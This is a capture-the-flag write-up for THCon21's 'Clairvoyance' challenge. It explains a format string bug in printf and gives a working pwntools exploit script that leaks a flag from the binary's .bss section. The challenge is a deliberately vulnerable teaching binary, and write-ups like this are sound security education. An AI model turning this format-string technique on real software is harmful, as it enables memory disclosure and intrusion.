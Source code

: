 ```yaml
---
title: "THCon21 - Clairvoyance"
date: 2021-06-15T16:29:06+02:00
draft: false
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A format string pwn challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


# THCon21 - Blacklisted

[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Do you have enough clairvoyance to read the flag inside my mind ?
> 
> **Attachments:**
> - [clairvoyance](/files/thcon21/clairvoyance)

## Analysing the binary

The attachment is an ELF x64 binary. Again, I opened it in IDA and went to the `main` function.

![Clairvoyance main](/image/thcon21/clairvoyance.png "Clairvoyance main")

To put it simply, the program asks you for your name and whether you want to read the flag. If you say "yes" to the latter, it will blow you off (and if you say something else, it'll just say bye as well).

The weakness here is that the program uses `printf(name)` after saying "nice try", which makes it vulnerable to a format string bug in the name you enter.

Now let's look at the read_flag function, since the flag is not used anywhere in `main` but is probably loaded in memory.

![Clairvoyance main](/image/thcon21/read_flag.png)

Bingo! The content of the file `flag.txt` is read into the `flag` variable. However, `flag` is located in the bss section, not on the stack, when printf will read its arguments on the stack.

![flag on bss](/image/thcon21/bss.png)

But that's not really an issue.

## Exploiting the format string bug

![Awesome meme you are missing :cry:](/image/thcon21/funm.png "r/AAAAAAAAAAAAAAAAA")

The address of the flag isn't on the stack, but our user input is. For example, here is what I get when I input `AAAAAAAA%p%p%p%p%p%p%p%p%p%p`:

```
Nice try, but no flag for you, AAAAAAAA0x7ffeb09c38c0(nil)(nil)0x50x1f0x7ffeb09c60780x100401365(nil)0xa7365790x4141414141414141
```
(I'd gladly put spaces between the `%p` but we're limited to 31 characters in total...)

Here, you can see that the beginning of our user input `AAAAAAAA` (or `0x4141414141414141`) shows up at the end, so at the 10th `%p`, which means that if we send `AAAAAAAA%10$s`, printf will try to display the string at the address `0x4141414141414141`.

Now if we replace `AAAAAAAA` by the address of `flag`, it should print the flag, right? Well, almost.

As you can see in the bss screenshot, the address of the flag is `0x0000000000404080`, which means that you'll have to throw in a bunch of null bytes, and fgets will stop reading your input once it sees a null byte.

So the little trick we're going to make is:
- Send `%11$s`
- Send 3 `A` for padding (making the length = 8), so that our address is fully on the 11th slot
- Send our address

*Note: the actual address starts with null bytes as you can see on the screenshot. Fortunately, we have to send it backwards to the program (because of a different endianness), so the non-null bytes go first!*

Now here is a little python script using pwntools that does exactly what we want:

```py
from pwn import *

elf = ELF("clairvoyance")
bss = elf.symbols["flag"]        # Loads the address of the flag
payload = b'%11$sAAA' + p64(bss) # p64 converts it to 8 bytes with the right endian
print(payload)

p = process("./clairvoyance")
p.recv()
p.sendline(payload)
p.recv()
p.sendline(b"yes")
print(p.recv())
```

![Clairvoyance solved](/image/thcon21/clairvoyance_solved.png)

*Note: as you can see on the screenshot, the binary has No PIE, so the address of `flag` in the bss doesn't change. Otherwise, the challenge would've been more complicated.*


[Go back to write-ups list](../)